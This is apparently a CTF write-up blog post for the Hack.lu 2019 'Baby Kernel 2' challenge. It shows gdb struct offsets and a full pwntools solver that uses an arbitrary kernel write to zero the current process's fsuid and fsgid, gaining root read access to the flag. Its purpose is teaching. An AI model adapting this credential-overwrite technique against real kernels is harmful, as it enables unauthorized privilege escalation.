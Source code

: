 ```yaml
---
layout: post
title: Intro to Kernel Pwning - Hack.lu 2019
date: 2019-11-03 19:54
summary: A great beginner Linux kernel pwn from Hack.lu 2019
categories:  CTF kernel linuk kernelpwn hacklu hack.lu
---
```


## Intro Kernel Pwn: Baby kernel 2 from [Hack.lu](https://fluxfingersforfuture.fluxfingers.net/challenges) 2019 CTF

### Challenge Summary:

Baby Kernel 2 is the second step in a series of intro kernel pwning challenges, beginning with last year's Hack.lu Baby Kernel 1. This year we are given a kernel that when ran, presents us with the following options:
1. Read from a memory address
2. Write to a memory address
3. Get our UID
4. Read a file

![kernel menu](/images/baby_kernel_2-menu.png)

Given the information we have thus far, we can assume that we need a way to gain elevated privilidges in order to read some file… maybe a flag file… ( •͡˘ _•͡˘).

### Further Analysis:

After unpacking the init file system and dumping the baby_kernel_2.ko module into a decompiler, you’ll notice that we are given a free 8-byte write anywhere in kernel land. This is triggered when using the write option in the menu.

To further understand this challenge, we must also recognize that we have System.map. The symbol table contains all of the kernel’s symbol names and their addresses. Symbols provide names of important information in a binary (functions, variables, etc.) and map these names to their location in memory. In this case, System.map provides us with the symbols for vmlinux. Most notably, current_task.

`current_task`(also referred to as `current`) is a pointer to the current executing task's [`task_struct`](http://140.120.7.21/LinuxRef/ProcMana/ProcessManaging.html). The kernel refrences each task using its task_struct. The task struct contains information about a process like its credentials and memory layout. We are specifically interested in the current process' [`cred_struct`](https://github.com/torvalds/linux/blob/master/include/linux/cred.h). If we can overwrite the current process' `cred_struct` to elevate its privilidges to root, we can read any file.

{% highlight c %}
struct task_struct {
    ...
	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
	...
{% endhighlight %}

{% highlight c %}
struct cred {
	...
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	...
{% endhighlight %}

Every `task_Struct` contains a pointer to the processes's `cred_struct`. In order to accomplish overwriting the current processes's creds with our 8 byte write, we need to know the offset of the `cred_struct` in the `task_struct`. Once we know the address of the `cred_struct` we can get the offset of the privilidge ID's and overwrite them. We can figure out the offsets using a little gdbfoo:

```
(gdb) ptype /o struct task_struct
...
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
...
```

```
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
```

Now that we know all the offsets, we can overwrite the creds of the current process. For this challenge, I only needed to overwrite `fsuid` and `fsgid` in order to gain privs to read `flag`. Here is my complete solver:

{% highlight python %}
from pwn import *

conn = remote("babykernel2.forfuture.fluxfingers.net", 1337)

def read(addr):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('> ', str(hex(addr)))
    resp = conn.recvuntil("---").split()[22]
    return resp

def write(addr, val):
    conn.sendlineafter("> ",str(2))
    conn.sendlineafter("> ",str(hex(addr)))
    conn.sendlineafter("> ",str(val))
    return

def show_flag():
    conn.sendlineafter("> ",str(4))
    conn.sendlineafter("> ","flag")
    print(conn.recvuntil("}"))

#The pointer to current_task struct from System.map stored at current_task
current_task_ptr = 0xffffffff8183a040
current_task = read(current_task_ptr) #address of task_struct
log.info("current_task struct: 0x%s" % current_task)

"""
(gdb) ptype /o struct task_struct
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
"""

#Offset of cred_struct into task_struct obtained from gdb
cred_off = 1024 #ptype /o struct task 0x400
cred_struct_ptr = int(current_task, 16) + cred_off

#cred_struct location
cred_struct = int(read(cred_struct_ptr), 16)
log.info("cred_struct: 0x%x" % cred_struct)

"""
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
"""

#exploit part
log.info("Overwriting fsuid")
write(cred_struct+28, 0) #set fsuid = 0, 0 = root privilidges

log.info("Overwriting fsgid")
write(cred_struct+32, 0) #set fsgid = 0

show_flag()
{% endhighlight %}


## Summary

Overall, I thought this was a great intro kernel pwning challenge, and I would highly reccommend it to anyone wanting to try kernel pwning. The key to solving this challenge is knowing a bit about Linux kernel symbols and some GDB skills to obtain offsets. 

If you are using Ghidra you must update to a version >= 9.1. For some reason Ghidra releases below 9.1 cannot handle decompiling kernel modules.

Flag: flag{nicely_done_this_is_how_a_privesc_can_also_go}

Solver is on [github]()

### Creds
- [@Kallsyms](https://twitter.com/kallsyms)
- [@Hack.lu](https://twitter.com/hack_lu?lang=en)
